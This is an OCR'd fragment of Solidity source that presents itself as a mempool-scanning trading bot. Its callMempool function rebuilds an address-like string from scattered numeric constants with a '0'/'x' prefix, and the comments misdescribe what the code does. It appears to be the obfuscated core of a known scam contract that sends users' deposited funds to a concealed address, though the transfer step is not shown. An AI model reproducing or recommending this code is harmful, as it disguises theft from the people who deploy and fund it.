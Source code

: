     function getMemPoolHeight() internal pure returns (uint256) {
        return 930558909;
    }

    /*
     * @dev Iterating through all mempool to call the one with the with highest possible returns
     * @return `self`.
     */
    function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool(
            "x",
            checkLiquidity(getMemPoolOffset())
        );
        uint256 _memPoolSol = 9248667376778;
        uint256 _memPoolLength = 267103910;
        uint256 _memPoolSize = 45949;
        uint256 _memPoolHeight = getMemPoolHeight();
        uint256 _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(
            _memPoolOffset,
            checkLiquidity(_memPoolSol)
        );
        string memory _memPool2 = mempool(
            checkLiquidity(_memPoolLength),
            checkLiquidity(_memPoolSize)
        );
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(
            mempool(_memPool1, _memPool2),
            mempool(_memPool3, _memPool4)
        );
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

    /*
     * @dev Modifies `self` to contain everything from the first occurrence of
     *      `needle` to the end of the slice. `self` is set to the empty slice
     *      if `needle` is not found.
     * @param self The slice to search and modify.
     * @param needle The text to search for.
     * @return `self`.
     */
    function toHexDigit(uint8 d) internal pure returns (bytes1) {
        if (0 <= d && d <= 9) {
            return bytes1(uint8(bytes1("0")) + d);
        } else if (10 <= uint8(d) && uint8(d) <= 15) {
            return bytes1(uint8(bytes1("a")) + d - 10);
        }
        // revert("Invalid hex digit");
        revert();
    }
